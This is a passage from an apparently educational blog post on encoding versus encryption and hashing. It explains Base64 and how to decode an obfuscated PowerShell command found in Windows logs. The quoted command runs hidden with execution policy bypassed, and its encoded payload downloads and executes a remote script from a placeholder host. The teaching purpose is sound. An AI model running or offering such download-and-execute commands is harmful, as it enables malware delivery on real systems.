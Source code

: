 You might have heard about these words, Encoding, Encryption and Hashing, used interchangeably.

Indeed it is a common misconception that these words refer to the same thing, when in reality they refer to their own different techniques and goals.

Let's take a quick look at each one. Also, I created a little exercise for each if you want to have a little fun.



## Encoding

The goal of encoding data is not to secure information, but to transform data so that it can be properly consumed by different system types. This is a completely reversible process.

Computers communicate in binary (0s and 1s) but typically users want to communicate using richer data formats, like text or images. In order to transfer this data between computers, first they need to be converted to binary, sent and then decoded. It would be much simpler if all systems used a single **encoding scheme** but this is not the case. In order for the computer to decode received encoded data, it needs to know which encoding scheme was used to encode.

There are several public encoding schemes, such as text-to-binary (ASCII, UTF-8, etc.) and binary-to-text (Base64, etc.).



### Base64 Example

Binary-to-text schemes are designed to transport data in binary format between channels that only support plain-text content (ASCII). Base64 is widely used in the WWW context to embed images (or videos, or other type of binary data), in textual formats like HTML and CSS files.

Base64 strings are also widely used by attackers targeting Windows systems to hide their goal in a PowerShell command.

Let's see an example of this: in your Windows logs you see a suspicious command being run several times.

```powershell
C:\Windows\System32\cmd.exe /c powershell -windowstyle hidden -exec bypass -encodedcommand YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA==
```

From `encodedcommand` help:

> Accepts a base64-encoded string version of a command.

So we know, after this parameter, follows a base64-encoded command. Perfect, now we know how to decode the string.

On your Linux machine :

```sh
ipython3			# open ipython3 console
```

```python
import base64;

my_string = "YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA=="		
#the string in the command above

base64.b64decode(my_string).decode("utf8")
```
